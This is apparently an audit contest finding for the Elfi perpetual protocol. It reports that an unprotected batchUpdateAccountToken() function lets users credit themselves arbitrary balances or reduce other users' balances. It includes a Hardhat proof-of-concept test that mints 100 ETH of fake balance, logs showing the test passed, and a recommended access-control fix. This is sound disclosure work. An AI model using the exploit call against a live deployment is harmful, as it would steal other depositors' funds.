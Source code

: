 Ripe Hemp Perch

High

# Users can increase their balances without token deposits

## Summary
Considering balance changes are mutated during swaps, deposits, stakes, withdrawals, order, and position openings, users can leverage the unprotected `batchUpdateAccountToken()` function of the AccountFacet contract to allocate themselves token balances which leads to a loss of funds for other legitimate users' deposits.

## Vulnerability Detail
```solidity
// @note seen but who calls this? @audit unprotected calls
    function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override {
        AddressUtils.validEmpty(params.account);
        AssetsProcess.updateAccountToken(params);  // @audit user can give themselves balances
    }
```

The `updateAccountToken()` function is called after a swap happens in the net positive/negative for a given user and mutates the user's balance of the net delta for the token swapped, but this function is also called when you interact with the AccountFacet directly outside of the StakeFacet, by calling `batchUpdateAccountToken()` which then calls `updateAccountToken()` that does the logic below:

```solidity
function updateAccountToken(UpdateAccountTokenParams calldata params) external {
        Account.Props storage accountProps = Account.load(params.account);
        accountProps.checkExists();
        for (uint256 i; i < params.tokens.length; i++) {
            if (params.changedTokenAmounts[i] == 0) {
                continue;
            }
            if (params.changedTokenAmounts[i] > 0) {
                accountProps.addToken(params.tokens[i], params.changedTokenAmounts[i].toUint256());
                accountProps.repayLiability(params.tokens[i]);
            } else { // @audit another user can mutate their posted collateral outside of swaps by calling the `batchUpdateAccountToken` function on the account facet directly
                accountProps.subToken(params.tokens[i], (-params.changedTokenAmounts[i]).toUint256());
            }
        }
    }
```

What the function block basically does, is credit users, remove from user account balances for a specified token, and repay user liabilities anytime they do have one and a new deposit or credit comes in for the said user as can for example be seen from the `addToken()` function logic below for the accounting process:

```solidity
function addToken(Props storage self, address token, uint256 amount) external {
        addToken(self, token, amount, UpdateSource.DEFAULT);
    }

    function addToken(Props storage self, address token, uint256 amount, UpdateSource source) public {
        if (!self.tokens.contains(token)) {
            self.tokens.add(token);
        }
        TokenBalance storage balance = self.tokenBalances[token];
        TokenBalance memory preBalance = balance;
        balance.amount += amount;
        emit AccountTokenUpdateEvent(self.owner, token, preBalance, balance, source);
    }
```

## Impact
There are a couple of ways to cause problems with this: 

1. The most interesting one would be an attacker giving themself a net positive balance without having deposited the said balance and not having any open liabilities. This would allow the attacker to take out funds belonging to other users and/or open positions with fake balances
2. Reducing other users' balances arbitrarily resulting in a net negative for the users who can't open positions or withdraw back tokens

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71

Paste the coded POC below in the `increaseMarketOrder.test.ts` file:

```solidity
it('Case IncBal: Increase balance of user arbitrarily', async function () {

    // user deposits first
    const amount = precision.token(1, 17) // 0.1 ETH
    const tx = await accountFacet.connect(user0).deposit(ethers.ZeroAddress, amount,
      {
        value: amount,
      },
    )
    await tx.wait()


    // user initial balance post-deposit
    const userAddr = user0.address;
    const accountInfo = await accountFacet.getAccountInfo(user0.address)
    // console.log("accountInfo: ", accountInfo);
    expect(user0.address).to.equals(accountInfo.owner)
    expect(amount).to.equals(account.getAccountTokenAmount(accountInfo, wethAddr))

    // user then gives themself a balance increase of 100 ethers to round up to 100.1 ether balance
    const balIncrement = precision.token(100, 18) // 100 ethers
    const increaseBalTx = await accountFacet.connect(user0).batchUpdateAccountToken({
      account: userAddr,
      tokens: [wethAddr],
      changedTokenAmounts: [balIncrement]
    })
    await increaseBalTx.wait()

    // checking user internal balance post account balance increase
    const accountInfoPostIncr = await accountFacet.getAccountInfo(user0.address)
    console.log("accountInfo post-inc: ", accountInfoPostIncr);
    expect(user0.address).to.equals(accountInfoPostIncr.owner)
    expect(amount + balIncrement).to.equals(account.getAccountTokenAmount(accountInfoPostIncr, wethAddr))
  })
```
Logs:
```solidity
accountInfo post-inc:  Result(11) [
  '0x70997970C51812dc3A010C7d01b50e0d17dc79C8',
  Result(1) [ Result(4) [ 100100000000000000000n, 0n, 0n, 0n ] ],
  Result(1) [ '0x5FbDB2315678afecb367f032d93F642f64180aa3' ],
  Result(0) [],
  0n,
  0n,
  0n,
  0n,
  0n,
  0n,
  0n
]
    ✔ Case IncBal: Increase balance of user arbitrarily (70ms)
```

## Tool used

Manual Review

## Recommendation
The `updateAccountToken` is called during swaps which is great as a logic of the StakeFacet because the swap would have to be successful and an attacker can't actually do any direct calls inside the StakeFacet to this function but they can from the `AccountFacet` which is exposed. Removing the `batchUpdateAccountToken` function from the AccountFacet would fix this issue or better still, gate the function for who can call it.